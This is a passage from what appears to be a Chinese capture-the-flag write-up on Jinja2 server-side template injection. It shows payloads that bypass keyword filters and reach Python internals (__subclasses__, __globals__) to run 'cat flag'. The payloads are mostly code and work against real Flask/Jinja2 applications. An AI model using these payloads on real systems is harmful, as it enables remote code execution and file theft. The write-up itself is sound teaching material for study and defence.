 ```bash
{%set flag=(dict(cat=abc)|join,h,dict(flag=b)|join)|join%}
{%set re=dict(read=a)|join%}
{{()|attr(a)|attr(b)|attr(c)()|attr(d)(hundred)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```

[![在这里插入图片描述](assets/1698900310-f5b7e0949e921c8d68a60f9890cce8a0.png)](https://storage.tttang.com/media/attachment/2022/08/14/f1a7b7a4-587b-4428-84db-e072b4f43b83.png)

### [level 13](#toc_level-13)

[![在这里插入图片描述](assets/1698900310-6480ad06025b3e878c446a888c257805.png)](https://storage.tttang.com/media/attachment/2022/08/14/a33e3b2d-e475-4276-aaaa-565a323cd08a.png)  
过滤增添了一些关键词，其中`self`被 ban，本来用它设置的空格，但无妨，我们这里可以利用 pop 构造空格，简单修改一下之前的 payload

```bash
{% set po=dict(po=a,p=a)|join%}
{%set one=dict(aaaaaaaaaaaaaaaaa=a)|join|count%}
{%set two=dict(aaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set x=(()|select|string|list)|attr(po)(two)%}
{%set eighteen=dict(aaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set hundred=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set a=(x,x,dict(cla=a,ss=a)|join,x,x)|join()%}  
{%set b=(x,x,dict(base=a)|join,x,x)|join() %}  
{%set c=(x,x,dict(subcla=a,sses=a)|join,x,x)|join() %}   
{%set d=(x,x,dict(getitem=a)|join,x,x)|join()%}
{%set e=(x,x,dict(ini=a,t=a)|join,x,x)|join()%} 
{%set f=(x,x,dict(globals=b)|join,x,x)|join()%} 
```